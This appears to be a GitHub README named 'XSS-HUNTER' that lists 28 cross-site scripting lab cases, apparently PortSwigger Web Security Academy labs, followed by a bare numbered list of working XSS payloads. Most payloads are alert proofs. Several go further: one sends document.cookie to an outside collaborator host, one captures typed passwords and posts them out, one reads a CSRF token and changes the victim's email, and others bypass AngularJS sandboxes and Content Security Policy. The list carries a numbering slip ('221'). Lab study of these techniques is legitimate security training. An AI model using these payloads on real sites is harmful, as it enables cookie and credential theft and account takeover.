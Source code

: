 # XSS-HUNTER

## Case XSS
1. Reflected XSS into HTML context with nothing encoded
2. Stored XSS into HTML context with nothing encoded
3. DOM XSS in document.write sink using source location.search
4. DOM XSS in innerHTML sink using source location.search
5. DOM XSS in jQuery anchor href attribute sink using location.search source
6. DOM XSS in jQuery selector sink using a hashchange event
7. Reflected XSS into attribute with angle brackets HTML-encoded
8. Stored XSS into anchor href attribute with double quotes HTML-encoded
9. Reflected XSS into a JavaScript string with angle brackets HTML encoded
10. DOM XSS in document.write sink using source location.search inside a select element
11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
12. Stored DOM XSS
13. Reflected XSS into HTML context with most tags and attributes blocked
14. Reflected XSS into HTML context with all tags blocked except custom ones
15. Reflected XSS with some SVG markup allowed
16. Reflected XSS in canonical link tag
17. Reflected XSS into a JavaScript string with single quote and backslash escaped
18. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
19. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
20. Exploiting cross-site scripting to steal cookies
21. Exploiting cross-site scripting to capture passwords
22. Exploiting XSS to perform CSRF
23. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
24. Reflected XSS with AngularJS sandbox escape without strings
25. Reflected XSS with AngularJS sandbox escape and CSP
26. Reflected XSS with event handlers and href attributes blocked
27. Reflected XSS protected by very strict CSP, with dangling markup attack
28. Reflected XSS protected by CSP, with CSP bypass


## Payload
Reflected XSS
1. ```<script>alert(1)</script>```
2. ```"><svg onload=alert(1)>```
3. ```<img src=1 onerror=alert(1)>```
4. ```javascript:alert(document.cookie)```
5. ```<img src=1 onerror=print()>```
6. ```"onmouseover="alert(1)```
7. ```javascript:alert(1)```
8. ```'-alert(1)-'```
9. ```product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>```
10. ```{{$on.constructor('alert(1)')()}}```
11. ```\"-alert(1)}//```
12. ```<><img src=1 onerror=alert(1)>```
13. ```<iframe src="https://YOUR-LAB-ID.com/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>```
14. ```<script>location = 'https://YOUR-LAB-ID.com?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>```
15. ```/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E```
16. ```/?%27accesskey=%27x%27onclick=%27alert(1)```
17. ```</script><script>alert(1)</script>```
18.  ```\'-alert(1)//```
19. ```http://foo?&apos;-alert(1)-&apos;```
20. ```<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">```
221. ```<script>var req = new XMLHttpRequest();req.onload = handleResponse;req.open('get','/my-account',true);req.send();function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')};</script>```
22. ```<script>fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>```
23. ```${alert(1)}```
24. ```/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1```
25. ```<script>location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';</script>. ```
26. ```?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E```
27. ```/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27```
28. ```?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27```

